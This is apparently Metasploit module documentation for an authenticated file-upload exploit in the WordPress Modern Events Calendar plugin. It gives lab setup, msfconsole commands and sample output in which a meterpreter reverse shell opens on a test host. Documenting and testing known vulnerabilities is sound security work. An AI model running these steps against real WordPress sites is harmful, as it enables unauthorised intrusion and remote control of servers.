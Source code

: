 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Modern Events Calendar < 5.16.5.
This is due to an incorrect check of the uploaded file extension.
By using `text/csv` content-type in a request, it is possible to upload a .php payload as is is not forbidden by the plugin.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/<random_payload_name>.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Modern Events Calendar plugin from [there]
(https://downloads.wordpress.org/plugin/modern-events-calendar-lite.5.16.2.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/wp_plugin_modern_events_calendar_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Modern Events Calendar 5.16.2.
See the following output :

```
msf6 > use wp_plugin_modern_events_calendar_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set rhost 192.168.1.12
rhost => 192.168.1.12
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set username admin
username => admin
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set password my_best_password
password => my_best_password
msf6 exploit(wp_plugin_modern_events_calendar_rce) > run

[*] Started reverse TCP handler on 192.168.1.35:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Uploading file 'wkook.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.12
[*] Meterpreter session 10 opened (192.168.1.35:4444 -> 192.168.1.12:34400) at 2021-07-12 14:20:43 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 66dd7f594749
OS          : Linux 66dd7f594749 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
